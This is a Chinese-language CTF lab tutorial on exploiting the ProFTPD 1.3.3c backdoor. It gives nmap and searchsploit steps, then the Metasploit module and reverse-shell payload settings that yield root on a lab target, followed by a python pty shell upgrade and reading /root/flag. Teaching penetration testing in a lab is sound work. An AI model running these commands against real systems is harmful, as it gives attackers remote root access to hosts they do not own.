










# CTF网络安全教程：P8：6.7.CTF夺旗-FTP服务后门利用 🚩

在本节课中，我们将学习CTF训练中服务安全的一个具体案例：FTP服务。我们将通过探测、分析并利用FTP服务中的一个已知后门漏洞，最终获取目标主机的root权限，并成功读取flag值。

## FTP服务简介



上一节我们介绍了CTF中服务安全的重要性，本节中我们来看看FTP服务。FTP是文件传输协议的英文简称，中文称为文件协议。它用于在Internet上控制文件的双向传输，同时也是一个应用程序。基于不同操作系统有不同的FTP服务，但所有应用程序都遵守同一种协议来传输文件。



在FTP的使用中，用户经常遇到两个概念：下载和上传。
*   **下载**文件是从远程主机拷贝文件到自己的计算机。
*   **上传**文件是指将文件从自己的计算机拷贝到远程主机。

用技术语言来说，用户可以通过客户端程序从远程主机上传或下载文件。FTP就是这种文件传输的规定或法则。

## 实验环境搭建

了解了FTP的基本概念后，我们来搭建本次实验的环境。



*   **攻击机**：采用Kali Linux，IP地址是 `192.168.1.105`。
*   **靶机**：使用Ubuntu系统，IP地址是 `192.168.1.100`。

我们的目标是获取靶机上的flag值，即取得靶机的控制权限。

## 信息收集与探测

获得实验环境后，我们的第一步是探测靶机上开放的服务及其版本。我们使用Nmap工具进行扫描。

以下是两种常用的扫描方式：

**1. 扫描服务版本**
使用 `-sV` 参数可以扫描目标开放端口的服务版本信息。
```bash
nmap -sV 192.168.1.100
```

**2. 全面扫描**
使用 `-T4 -A -v` 参数可以进行快速全面的扫描，包括服务版本、操作系统信息、路由追踪等详细信息。
```bash
nmap -T4 -A -v 192.168.1.100
```

扫描完成后，我们分析结果，发现靶机开放了21（FTP）、22（SSH）、80（HTTP）端口。我们重点关注FTP服务，并发现了其软件及版本信息：`ProFTPD 1.3.3c`。

## 漏洞搜索与分析

探测到FTP服务的具体版本后，下一步是查找该版本是否存在已知漏洞。我们使用 `searchsploit` 工具进行搜索。
```bash
searchsploit ProFTPD 1.3.3c
```
搜索结果显示，`ProFTPD 1.3.3c` 存在一个“后门命令执行”漏洞。该漏洞已被集成到Metasploit渗透测试框架中，这为我们利用漏洞提供了便利。



## 利用Metasploit进行漏洞利用

为了方便地进行漏洞利用，我们使用集成了该漏洞利用模块的Metasploit框架。

以下是利用步骤：



**1. 启动Metasploit并搜索模块**
```bash
msfconsole
search ProFTPD 1.3.3c
```

**2. 使用漏洞利用模块**
找到对应的 `exploit` 模块后，使用 `use` 命令加载它。
```bash
use exploit/unix/ftp/proftpd_133c_backdoor
```

**3. 查看并设置Payload**
查看该模块可用的Payload，我们选择 `cmd/unix/reverse` 来获取一个反向shell。
```bash
show payloads
set payload cmd/unix/reverse
```







**4. 配置攻击参数**
使用 `show options` 查看需要设置的参数。主要设置目标主机IP（RHOST）和监听主机IP（LHOST，即攻击机IP）。
```bash
set RHOSTS 192.168.1.100
set LHOST 192.168.1.105
```

**5. 执行攻击**
参数配置完成后，执行 `exploit` 命令开始攻击。
```bash
exploit
```
攻击成功后，我们会获得一个到靶机的shell连接。使用 `id` 命令可以确认我们已获得 `root` 权限。

## 优化Shell与寻找Flag



获得的初始shell可能功能不完整。我们可以使用Python的PTY模块来生成一个功能更全的交互式shell。
```bash
python -c "import pty; pty.spawn('/bin/bash')"
```

接下来，在CTF比赛中，获得权限后的关键步骤是寻找flag。通常flag文件位于根目录或特定用户目录下。
```bash
# 切换到根目录
cd /root
# 列出文件
ls -alh
# 查看flag文件内容
cat flag
```
成功读取到flag值后，即可提交得分。



## 课程总结

本节课中我们一起学习了针对FTP服务的完整渗透测试流程。我们首先进行信息收集，探测到 `ProFTPD 1.3.3c` 服务；接着搜索并确认其存在后门漏洞；然后利用Metasploit框架成功实施攻击，获得root权限；最后优化shell环境并找到目标flag。


通过这个案例，我们认识到：对于开放FTP、SSH、Telnet等服务的系统，应积极尝试搜索其服务版本的公开漏洞。利用现成的漏洞利用代码（EXP）是快速获取主机权限的有效途径。在CTF比赛或安全评估中，不应局限于Web攻击面，系统上开放的每一个端口、每一项服务及其版本信息，都可能成为突破口。